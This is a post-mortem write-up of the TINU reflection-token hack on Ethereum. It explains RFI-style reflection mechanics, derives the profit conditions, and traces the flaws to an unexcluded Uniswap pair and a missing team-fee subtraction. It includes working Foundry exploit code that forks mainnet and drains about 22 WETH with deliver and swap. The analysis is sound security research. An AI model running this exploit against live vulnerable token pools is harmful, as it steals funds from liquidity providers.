# 230126-TINU

## AttackTx

Analyzing the [attack transaction](https://phalcon.blocksec.com/explorer/tx/eth/0x6200bf5c43c214caa1177c3676293442059b4f39eb5dbae6cfd4e6ad16305668) using Phalcon.

### Fund Flow



The fund flow is straightforward. Initially, about 139 WETH is flash loaned from Balancer and returned after the attack ends. 

104.85 WETH is used to swap for TINU tokens on the Uniswap pool, while withdrawing around 127 WETH additionally. Finally, WETH is converted to ETH to bribe flashbots builder, resulting in a profit of approximately 22.11 ETH.

From the fund flow, alone, it can only be seen that there is a vulnerability in the TINU token.

### Balance Changes



### State Changes



Apart from the ordinary Pair-related state variable changes, it's noteworthy that there were several state changes in the TINU token itself.

### Invocation Flow

Next, let's analyze the internal invocation details of the transaction.



Firstly, the attack contract borrows WETH from Balancer.



Then, in the callback, it first buys TINU tokens with 104.85 WETH, and then uses the obtained TINU amount as a parameter to call the `deliver` function of the TINU contract. It then calls the pair's `skim` function. The balance of the attackContract is significantly higher than before, indicating that the `deliver` function call likely increased the amount of TINU tokens in the pair.

Next, it calls the `deliver` function again with the entire balance as a parameter. Without transferring TINU tokens, it directly calls the pair's `swap` function, withdrawing around 127 WETH. This is about 22 more WETH than used for the initial purchase, resulting in a profit. The flash loan is also repaid.

Clearly, this attack exploits the `deliver` function of the TINU token. Further analysis is needed in conjunction with the code to understand it better.

## Vulnerability

In fact, TINU is a type of reflection token. Before delving into the analysis of TINU's vulnerabilities and attack principles, let's first understand the classic reflection token.

### Reflection Token

The classic reflection token [RFI](https://github.com/regohiro/reflect-contract-doc) is deployed at [0xa1afff](https://etherscan.io/address/0xa1afffe3f4d611d252010e3eaf6f4d77088b0cd7).

```solidity
uint256 private constant MAX = ~uint256(0);
uint256 private constant _tTotal = 10 * 10**6 * 10**9;
uint256 private _rTotal = (MAX - (MAX % _tTotal));

function totalSupply() public view override returns (uint256) {
    return _tTotal;
}
```

Different from traditional ERC20 tokens, the reflection token defines the original `totalSupply` as `tTotal` and introduces `rTotal` additionally. Initially, `rTotal` is a multiple of `tTotal` that is less than or equal to `MAX` and closest to `MAX`.

```solidity
constructor () public {
    _rOwned[_msgSender()] = _rTotal;
    emit Transfer(address(0), _msgSender(), _tTotal);
}

function balanceOf(address account) public view override returns (uint256) {
    if (_isExcluded[account]) return _tOwned[account];
    return tokenFromReflection(_rOwned[account]);
}
```

Moreover, the address balance is not simply mapped as in the case of `balance`. Typically, it will be further calculated based on the value of `rOwned` using `tokenFromReflection`.

```solidity
function tokenFromReflection(uint256 rAmount) public view returns(uint256) {
    require(rAmount <= _rTotal, "Amount must be less than total reflections");
    uint256 currentRate =  _getRate();
    return rAmount.div(currentRate);
}

function _getRate() private view returns(uint256) {
    (uint256 rSupply, uint256 tSupply) = _getCurrentSupply();
    return rSupply.div(tSupply);
}

function _getCurrentSupply() private view returns(uint256, uint256) {
    uint256 rSupply = _rTotal;
    uint256 tSupply = _tTotal;
    ...
    ...
    return (rSupply, tSupply);
}
```

The `tokenFromReflection` function calculates a rate based on `rSupply` and `tSupply`, which allows the conversion of `rOwned` for an account address to the displayed balance quantity based on this rate.

```solidity
function _transfer(address sender, address recipient, uint256 amount) private {
    require(sender != address(0), "ERC20: transfer from the zero address");
    require(recipient != address(0), "ERC20: transfer to the zero address");
    require(amount > 0, "Transfer amount must be greater than zero");
    if (_isExcluded[sender] && !_isExcluded[recipient]) {
        _transferFromExcluded(sender, recipient, amount);
    } else if (!_isExcluded[sender] && _isExcluded[recipient]) {
        _transferToExcluded(sender, recipient, amount);
    } else if (!_isExcluded[sender] && !_isExcluded[recipient]) {
        _transferStandard(sender, recipient, amount);
    } else if (_isExcluded[sender] && _isExcluded[recipient]) {
        _transferBothExcluded(sender, recipient, amount);
    } else {
        _transferStandard(sender, recipient, amount);
    }
}

function _transferStandard(address sender, address recipient, uint256 tAmount) private {
    (uint256 rAmount, uint256 rTransferAmount, uint256 rFee, uint256 tTransferAmount, uint256 tFee) = _getValues(tAmount);
    _rOwned[sender] = _rOwned[sender].sub(rAmount);
    _rOwned[recipient] = _rOwned[recipient].add(rTransferAmount);       
    _reflectFee(rFee, tFee);
    emit Transfer(sender, recipient, tTransferAmount);
}

function _getValues(uint256 tAmount) private view returns (uint256, uint256, uint256, uint256, uint256) {
    (uint256 tTransferAmount, uint256 tFee) = _getTValues(tAmount);
    uint256 currentRate =  _getRate();
    (uint256 rAmount, uint256 rTransferAmount, uint256 rFee) = _getRValues(tAmount, tFee, currentRate);
    return (rAmount, rTransferAmount, rFee, tTransferAmount, tFee);
}

function _getTValues(uint256 tAmount) private pure returns (uint256, uint256) {
    uint256 tFee = tAmount.div(100);
    uint256 tTransferAmount = tAmount.sub(tFee);
    return (tTransferAmount, tFee);
}

function _getRValues(uint256 tAmount, uint256 tFee, uint256 currentRate) private pure returns (uint256, uint256, uint256) {
    uint256 rAmount = tAmount.mul(currentRate);
    uint256 rFee = tFee.mul(currentRate);
    uint256 rTransferAmount = rAmount.sub(rFee);
    return (rAmount, rTransferAmount, rFee);
}

function _reflectFee(uint256 rFee, uint256 tFee) private {
    _rTotal = _rTotal.sub(rFee);
    _tFeeTotal = _tFeeTotal.add(tFee);
}
```

During transfers, the values changed are those of `rOwned` by default. In a standard transfer scenario (i.e., not involving excluded addresses), `rAmount`, `rTransferAmount`, and `rFee` are first calculated based on the transfer amount `tAmount` and the current rate. Here, `rTransferAmount` represents 99% of the transfer amount, while `rFee` represents the remaining 1%. Subsequently, `_reflectFee` is called.

The reflection here is the core of the reflection token. According to the `_reflectFee` function, 1% of the transfer amount is reflected. In other words, `rTotal` is reduced by `rFee` with each transfer, functioning similarly to `burn` in ERC20. As `rTotal` decreases, `rSupply` decreases accordingly, causing the rate to decrease. With other users' `rOwned` remaining unchanged, their corresponding balance via `tokenFromReflection(rOwned)` increases, enabling them to receive more tokens.

That is, `rTotal` will decrease in each transfer (therefore this reflection token is also considered a deflationary token), causing the rate to continuously decrease and the corresponding balance of other holders to increase. As stated on their [official website](https://reflect.finance/): "RFI works by applying a 1% fee to each transaction and instantly splitting that fee among all holders of the token. Holders do not need to stake or wait for fees to be **delivered**. Fees are awarded by the smart contract and are immediately **reflected** in the holders balance."

```solidity
function reflect(uint256 tAmount) public {
    address sender = _msgSender();
    require(!_isExcluded[sender], "Excluded addresses cannot call this function");
    (uint256 rAmount,,,,) = _getValues(tAmount);
    _rOwned[sender] = _rOwned[sender].sub(rAmount);
    _rTotal = _rTotal.sub(rAmount);
    _tFeeTotal = _tFeeTotal.add(tAmount);
}
```

Apart from using a 1% fee for reflection during transfers, users can also call the `reflect` function to voluntarily "burn" their tokens.

```solidity
function excludeAccount(address account) external onlyOwner() {
    require(!_isExcluded[account], "Account is already excluded");
    if(_rOwned[account] > 0) {
        _tOwned[account] = tokenFromReflection(_rOwned[account]);
    }
    _isExcluded[account] = true;
    _excluded.push(account);
}

function includeAccount(address account) external onlyOwner() {
    require(_isExcluded[account], "Account is already excluded");
    for (uint256 i = 0; i < _excluded.length; i++) {
        if (_excluded[i] == account) {
                _excluded[i] = _excluded[_excluded.length - 1];
                _tOwned[account] = 0;
                _isExcluded[account] = false;
                _excluded.pop();
                break;
        }
    }
}
```

For certain addresses, the owner can choose to exclude them from the entire reflection mechanism by calling the `excludeAccount` function. The balance of excluded addresses will no longer be calculated using `tokenFromReflection(rOwned)` but will directly use the value of `tOwned`, ensuring that their balance remains unchanged after reflection.

```solidity
function _transferToExcluded(address sender, address recipient, uint256 tAmount) private {
    (uint256 rAmount, uint256 rTransferAmount, uint256 rFee, uint256 tTransferAmount, uint256 tFee) = _getValues(tAmount);
    _rOwned[sender] = _rOwned[sender].sub(rAmount);
    _tOwned[recipient] = _tOwned[recipient].add(tTransferAmount);
    _rOwned[recipient] = _rOwned[recipient].add(rTransferAmount);       
    _reflectFee(rFee, tFee);
    emit Transfer(sender, recipient, tTransferAmount);
}

function _transferFromExcluded(address sender, address recipient, uint256 tAmount) private {
    (uint256 rAmount, uint256 rTransferAmount, uint256 rFee, uint256 tTransferAmount, uint256 tFee) = _getValues(tAmount);
    _tOwned[sender] = _tOwned[sender].sub(tAmount);
    _rOwned[sender] = _rOwned[sender].sub(rAmount);
    _rOwned[recipient] = _rOwned[recipient].add(rTransferAmount); 
    _reflectFee(rFee, tFee);
    emit Transfer(sender, recipient, tTransferAmount);
}

function _transferBothExcluded(address sender, address recipient, uint256 tAmount) private {
    (uint256 rAmount, uint256 rTransferAmount, uint256 rFee, uint256 tTransferAmount, uint256 tFee) = _getValues(tAmount);
    _tOwned[sender] = _tOwned[sender].sub(tAmount);
    _rOwned[sender] = _rOwned[sender].sub(rAmount);
    _tOwned[recipient] = _tOwned[recipient].add(tTransferAmount);
    _rOwned[recipient] = _rOwned[recipient].add(rTransferAmount);    
    _reflectFee(rFee, tFee);
    emit Transfer(sender, recipient, tTransferAmount);
}
```

Similarly, during transfers, for excluded accounts, both `rOwned` and `tOwned` need to be changed accordingly.

```solidity
function _getCurrentSupply() private view returns(uint256, uint256) {
    uint256 rSupply = _rTotal;
    uint256 tSupply = _tTotal;
    for (uint256 i = 0; i < _excluded.length; i++) {
        if (_rOwned[_excluded[i]] > rSupply || _tOwned[_excluded[i]] > tSupply) return (_rTotal, _tTotal);
        rSupply = rSupply.sub(_rOwned[_excluded[i]]);
        tSupply = tSupply.sub(_tOwned[_excluded[i]]);
    }
    if (rSupply < _rTotal.div(_tTotal)) return (_rTotal, _tTotal);
    return (rSupply, tSupply);
}
```

When calculating the rate, excluded addresses need to be subtracted to obtain `rSupply` and `tSupply`.

---

To summarize briefly, the balance of reflection tokens is closely related to the internal storage `rOwned`, which can be understood as shares. Transfers also involve the transfer of shares. `balanceOf` will retrieve the account's `rOwned` (shares), and then obtain the rate based on `rSupply/tSupply`, that is, how many shares correspond to one token, thus obtaining the token quantity (balance) corresponding to the account through `rOwned/rate`.

When a reflect(burn) occurs, the total shares decrease, while the shares `rOwned` of other users remain unchanged, so the corresponding balance quantity will increase.

Here is an explanation of some variables.

```
tTotal: const -> totalSupply

rTotal: variable
init: rTotal = q*tTotal
decrease in `_reflectFee` and `reflect`

tFeeTotal:
init: 0
increase in `_reflectFee` and `reflect`

balance: 
if excluded -> tOwned
else -> rOwend/rate

rate:
rate = rSupply/tSupply
rSupply = rTotal - ΣrExcluded
tSupply = tTotal - ΣtExcluded
```

--- 

Clearly, if there are no excluded addresses, after user A performs a `transfer` or `reflect`, the balances of the remaining holders will increase. For reflection token pairs, the balance in the pool will also increase, exceeding the `reserve`, allowing other users to directly profit from `skim` or `swap`.



To avoid this vulnerability, reflection tokens should at least exclude the pair address. The [deployer of RFI](https://etherscan.io/address/0xbc7f0cbf65746672d9db16a23c6eb4ff77981bd4) excluded the [pair](https://etherscan.io/address/0x4c8341379e95f70c08defb76c4f9c036525edc30) approximately twenty minutes after adding liquidity.

### TINU

The RFI token mentioned earlier has not been attacked so far and is still operating well on-chain. Therefore, we can compare it with [TINU token](https://etherscan.io/address/0x2d0E64B6bF13660a4c0De42a0B88144a7C10991F) to check for potential vulnerabilities that might have led to its attack.



```solidity
function testExcludePair() external {
    uint attackBlockNumber = 16489408;
    vm.rollFork(attackBlockNumber);
    console2.log("exclude pair?", tinu.isExcluded(address(tinu_weth)));
    // false
}
```

Firstly, it is observed that although the TINU contract has an excluded address, the [lockToken](https://etherscan.io/address/0xc77aab3c6d7dab46248f3cc3033c856171878bd5) contract is not the pair. Failing to exclude the pair will lead to the vulnerability mentioned earlier, where the balance of the pair will increase after `transfer` or `reflect`, allowing others to profit through `skim` or `swap`.

In TINU, the `reflect` function has been renamed, which appears as the `deliver` function in the previous invocation flow. Therefore, it can be inferred that the attack profit strategy involves the attacker purchasing a certain amount of TINU tokens from the pool, then calling the `deliver` function to "burn" them, causing the rate to decrease sharply, resulting in a significant increase in the TINU balance of the pair, far exceeding the `reserve`, thus allowing for the direct `swap` of a large amount of WETH.

The core question here is how to ensure that the WETH obtained in the end is greater than the WETH invested in purchasing TINU, i.e., what are the profit conditions. The analysis for RFI is provided below.

In RFI, the following equation exists:

$$
\begin{align} 
rate = \frac{rSupply}{tSupply} \tag{1} \\
rSupply = rTotal - ΣrExcluded \tag{2} \\
tSupply = tTotal - ΣtExcluded \tag{3}
\end{align}
$$

Assuming the attacker already holds $rReflect$ amount of TINU tokens for reflection, before the attack:
$$
\begin{align} 
pairBalance0 = \frac{rPair0}{rate} = \frac{rPair0 \times tSupply}{rSupply} \tag{4}
\end{align}
$$

After actively reflecting:
$$
\begin{align}
pairBalance1 = \frac{rPair0}{rate'} = \frac{rPair0 \times tSupply}{rSupply - rReflect} \tag{5}
\end{align}
$$

The attacker can profit only if the amount of TINU tokens skimmed exceeds the amount "burned" during reflection, meaning it must satisfy:

$$
\begin{align}
skimAmount > reflectAmount = \frac{rReflect}{rate} = \frac{rReflect \times tSupply}{rSupply} \tag{6} \\  
skimAmount = pairBalance1 - pairBalance0\tag{7}
\end{align}
$$

Further, from $(2), (4), (5), (6), (7)$, we can deduce:

$$
\begin{align}
rReflect > rSupply - rPair0 \tag{8} \\
rRefelct > rTotal - ΣrExcluded - rPair0 \tag{9}
\end{align}
$$

$(8), (9)$ represent the profit conditions.

However, under normal circumstances, it is impossible to meet these conditions. Normally, `rTotal = ΣrOwned(holder)`, meaning:
$$
\begin{align}
rTotal = ΣrExcluded + rPair0 + rOthers \tag{10}
\end{align}
$$

$(10)$ is clearly contradictory to $(9)$, indicating that the attacker cannot obtain the required amount of tokens.

For attackers without tokens, they first need to borrow WETH through flash loans to purchase TINU tokens. In this scenario:
$$
\begin{align}
rRefelct + rPair0 = rPair \tag{11}
\end{align}
$$

Where `rPair` is the initial state before the attacker purchases TINU, and `rPair0` is the state after the purchase and before reflection.

From $(9), (11)$, it follows that the attack can only profit if:
$$
\begin{align}
rPair > rTotal - ΣrExcluded \tag{12} 
\end{align}
$$

It is evidently impossible to satisfy this condition as well. Therefore, there must be other vulnerabilities in TINU tokens compared to the original reflection tokens.

--- 

``` solidity
function _transferStandard(address sender, address recipient, uint256 tAmount) private {
    (uint256 rAmount, uint256 rTransferAmount, uint256 rFee, uint256 tTransferAmount, uint256 tFee, uint256 tteam) = _getValues(tAmount);
    _rOwned[sender] = _rOwned[sender].sub(rAmount);
    _rOwned[recipient] = _rOwned[recipient].add(rTransferAmount); 
    _taketeam(tteam); 
    _reflectFee(rFee, tFee);
    emit Transfer(sender, recipient, tTransferAmount);
}

function _taketeam(uint256 tteam) private {
    uint256 currentRate =  _getRate();
    uint256 rteam = tteam.mul(currentRate);
    _rOwned[address(this)] = _rOwned[address(this)].add(rteam);
    // Come out of thin air
    if(_isExcluded[address(this)])
    _tOwned[address(this)] = _tOwned[address(this)].add(tteam);
}

function _reflectFee(uint256 rFee, uint256 tFee) private {
    _rTotal = _rTotal.sub(rFee);
    _tFeeTotal = _tFeeTotal.add(tFee);
}
```

After comparison, we can see that during the transfer process in TINU, besides the fees burned in `reflectFee`, there is also a teamFee charged, which means transferring a certain amount of tokens to the TINU contract itself.

``` solidity
function _getValues(uint256 tAmount) private view returns (uint256, uint256, uint256, uint256, uint256, uint256) {
    (uint256 tTransferAmount, uint256 tFee, uint256 tteam) = _getTValues(tAmount, _taxFee, _teamFee);
    uint256 currentRate =  _getRate();
    (uint256 rAmount, uint256 rTransferAmount, uint256 rFee) = _getRValues(tAmount, tFee, currentRate);
    return (rAmount, rTransferAmount, rFee, tTransferAmount, tFee, tteam);
}

function _getTValues(uint256 tAmount, uint256 taxFee, uint256 teamFee) private pure returns (uint256, uint256, uint256) {
    uint256 tFee = tAmount.mul(taxFee).div(100);
    uint256 tteam = tAmount.mul(teamFee).div(100);
    uint256 tTransferAmount = tAmount.sub(tFee).sub(tteam);
    return (tTransferAmount, tFee, tteam);
}

function _getRValues(uint256 tAmount, uint256 tFee, uint256 currentRate) private pure returns (uint256, uint256, uint256) {
    uint256 rAmount = tAmount.mul(currentRate);
    uint256 rFee = tFee.mul(currentRate); 
    uint256 rTransferAmount = rAmount.sub(rFee);
    // Missing sub teamFee
    return (rAmount, rTransferAmount, rFee);
}
```

In calculating the relevant values, it can be noted that in the `_getRValues` function, `rTransferAmount` is only reduced by `rFee` without a corresponding reduction in `rteam`. This causes the `rteam` in `_taketeam` to come out of thin air.

For example, if the `rAmount` of a transfer is 100, with 10% fees and teamFee each, then `rFee` and `rteam` are both 10. After the transfer:

```
rOwned[sender] -= 100
rOwned[team] += 10
rTotal -= 10
rOwned[receiver] += 90
```

This results in an issuance of `rOwned` out of thin air, causing `ΣrOwned(holder) > rTotal`, whereas it should be `rOwned[receiver] += 80` under normal circumstances.


``` solidity 
function _transfer(address sender, address recipient, uint256 amount) private {
    ...
    ...
    // is the token balance of this contract address over the min number of
    // tokens that we need to initiate a swap?
    // also, don't get caught in a circular team event.
    // also, don't swap if sender is uniswap pair.
    uint256 contractTokenBalance = balanceOf(address(this));

    if(contractTokenBalance >= _maxTxAmount) {
        contractTokenBalance = _maxTxAmount;
    }

    bool overMinTokenBalance = contractTokenBalance >= _numOfTokensToExchangeForteam;
    if (!inSwap && swapEnabled && overMinTokenBalance && sender != uniswapV2Pair) {
        // We need to swap the current tokens to ETH and send to the team wallet
        swapTokensForEth(contractTokenBalance);
        uint256 contractETHBalance = address(this).balance;
        if(contractETHBalance > 0) {
                sendETHToteam(address(this).balance);
        }
    }
    ...
    ...
}

function swapTokensForEth(uint256 tokenAmount) private lockTheSwap {
    // generate the uniswap pair path of token -> weth
    [] memory path = new address[](2);
    path[0] = address(this);
    path[1] = uniswapV2Router.WETH();

    _approve(address(this), address(uniswapV2Router), tokenAmount);

    // make the swap
    uniswapV2Router.swapExactTokensForETHSupportingFeeOnTransferTokens(
        tokenAmount,
        0, // accept any amount of ETH
        path,
        address(this),
        block.timestamp
    );
}

function sendETHToteam(uint256 amount) private {
    _teamWalletAddress.transfer(amount.div(2));
    _marketingWalletAddress.transfer(amount.div(2));
}
```

In addition, in its `transfer` function, it checks the TINU balance of the current contract, i.e., whether the total received teamFee exceeds a certain threshold. If so, it exchanges TINU tokens for WETH and transfers the profit out. This gradual influx of the `rOwned` allocated to the team into the pair makes it possible for condition $(12)$ for profit to be met.

``` solidity
function testCondition() external {
    uint attackBlockNumber = 16489408;
    vm.rollFork(attackBlockNumber);

    uint256 rTotal = uint256(vm.load(address(tinu), bytes32(uint256(13))));
    uint256 rExcluded = getMappingValue(address(tinu), 3, address(0xC77aab3c6D7dAb46248F3CC3033C856171878BD5));
    uint256 tExcluded = getMappingValue(address(tinu), 4, address(0xC77aab3c6D7dAb46248F3CC3033C856171878BD5));
    uint256 rPair = getMappingValue(address(tinu), 3, address(tinu_weth));

    emit log_named_uint("TINU rTotal", rTotal);       // 108768187544805713501204846339732808402752408502014790599736522386140496654995
    emit log_named_uint("TINU rExcluded", rExcluded);  // 3192758909975747822405896956488198123659233150861213276289711491709459543580
    emit log_named_uint("TINU tExcluded", tExcluded);  // 0
    emit log_named_uint("Pair rOwned", rPair); // 108505905800335567462313514886909726810259466467478275604883839519551731249929
    console2.log("rPair > rSupply?", rPair > rTotal-rExcluded); // true
}
```

Using the above code for testing, it can be confirmed that TINU satisfies $(12)$.

It can also be noted that the only excluded address has a `tOwned` of 0, while `rOwned` is not 0.



Analysis reveals that this address was first excluded by the account [0x777777](https://etherscan.io/address/0x777777f9ef0f0193d2ab2ad4ff7381578119259d) and then three TINU tokens were locked in it one after another.



Less than a month later, all TINU tokens locked in it were withdrawn.

So this is because after the account was excluded, due to the reflection mechanism in the transfer, the rate kept decreasing. Therefore, for the fixed TINU balance (`tOwned`) in the excluded account, the final withdrawal corresponds to a smaller `rOwned`, resulting in a `rOwned` remainder.

---

In summary, the vulnerability of TINU lies first in not excluding the pair as RFI does. If the pair is excluded, `reflect` will not affect the pair's balance, and the subsequent attack logic cannot be completed. Additionally, there is a vulnerability in the transfer logic, which increases `rOwned` out of thin air, further facilitating the formation of profitable conditions for the attack.

## Exploit

### Reproduce

The previous analysis covered the vulnerabilities in TINU. However, for attackers, there is another question: how many TINU tokens should be used for the reflection to maximize profits, or even to drain all WETH from the pair.

To maximize the value of `skimAmount` in $(7)$, we can simplify it as follows:

$$
\begin{align}
skimAmount = \frac{rReflect \times (rPair - rReflect)}{rSupply\times(rSupply-rReflect)}\tag{13}
\end{align}
$$

Since $rPair > rSupply$, when $rReflect$ approaches $rSupply$, more TINU tokens can be skimmed, and correspondingly, more WETH can be swapped.

Therefore, the `swap` should purchase TINU tokens that are close to the quantity of $rSupply$.

(If you buy more tokens than $rSupply$, according to $(13)$, there will be no profit. Additionally, the `transfer` function will check if the amount is less than `tTotal`, so it will revert.)

The final exploit is as follows.

``` solidity
function testExploit() external {
    uint attackBlockNumber = 16489408;
    vm.rollFork(attackBlockNumber);

    deal(address(weth), address(this), 2000 ether);

    uint256 rTotal = uint256(vm.load(address(tinu), bytes32(uint256(13))));
    uint256 rExcluded = getMappingValue(address(tinu), 3, address(0xC77aab3c6D7dAb46248F3CC3033C856171878BD5));
    uint256 rAmountOut = rTotal-rExcluded;
    uint256 tinuAmountOut = tinu.tokenFromReflection(rAmountOut) - 0.1*10**9;

    (uint reserve0, uint reserve1, ) = tinu_weth.getReserves();
    uint256 wethAmountIn = getAmountIn(tinuAmountOut, reserve1, reserve0);
    emit log_named_decimal_uint("WETH amountIn", wethAmountIn, weth.decimals());
    weth.transfer(address(tinu_weth), wethAmountIn);

    tinu_weth.swap(
        tinuAmountOut,
        0, 
        address(this),
        ""
    );

    tinu.deliver(tinu.balanceOf(address(this)));

    (reserve0, reserve1, ) = tinu_weth.getReserves();
    uint256 wethAmountOut = getAmountOut(tinu.balanceOf(address(tinu_weth))-reserve0, reserve0, reserve1);
    tinu_weth.swap(0, wethAmountOut, address(this), "");
    emit log_named_decimal_uint("Attack profit:", wethAmountOut - wethAmountIn, weth.decimals());
}
```

For simplicity, let's assume the attacker already owns a large amount of WETH and does not use a flash loan.

In TINU, approximately 800 WETH can be exchanged for nearly $rSupply$ TINU tokens. After delivering all the tokens obtained, one can directly `swap` them for WETH, resulting in a net profit of about 22.1445 WETH, which is approximately 0.004 WETH higher than the original attack. The original attack only used 104.85 WETH for the first purchase, then executed `skim->deliver->swap`. The attacker might have used a method and data obtained through testing or more complex mathematical calculations, which we will not delve into here.

``` solidity
function testSwap() external {
    uint attackBlockNumber = 16489408;
    vm.rollFork(attackBlockNumber);
    uint256 rTotal = uint256(vm.load(address(tinu), bytes32(uint256(13))));
    uint256 rExcluded = getMappingValue(address(tinu), 3, address(0xC77aab3c6D7dAb46248F3CC3033C856171878BD5));
    uint256 tinuDeliver = tinu.tokenFromReflection(rTotal-rExcluded)-0.1*10**9;

    // uint256 amountOut = 1 ether;
    uint256 amountOut = 22144561460967547974;
    tinu_weth.swap(tinuDeliver, amountOut, address(this), "1");
    emit log_named_decimal_uint("WETH balance", weth.balanceOf(address(this)), weth.decimals());
}

function uniswapV2Call(address /*sender*/, uint /*amount0*/, uint /*amount1*/, bytes calldata /*data*/) external {
    tinu.deliver(tinu.balanceOf(address(this)));
    // (uint reserve0, uint reserve1, ) = tinu_weth.getReserves();
    // uint256 profit = getAmountOut(tinu.balanceOf(address(tinu_weth))-reserve0, reserve0, reserve1);
    // console2.log(profit);
    // 22144561460967547974
}
```

Furthermore, there is no need to purchase TINU tokens in advance. As shown in the code above, the attack can be completed directly in one `swap`, only needing to `deliver` the TINU tokens in the callback and calculate the final amount of WETH that can be exchanged in the `swap` parameter in advance. This calculation is complex, so it can be tested first in the callback to obtain the data before using it in the `swap`.

### Attack Flow

Analyze the entire attack process of the [attacker address](https://etherscan.io/address/0x14d8ada7a0ba91f59dc0cb97c8f44f1d177c2195).

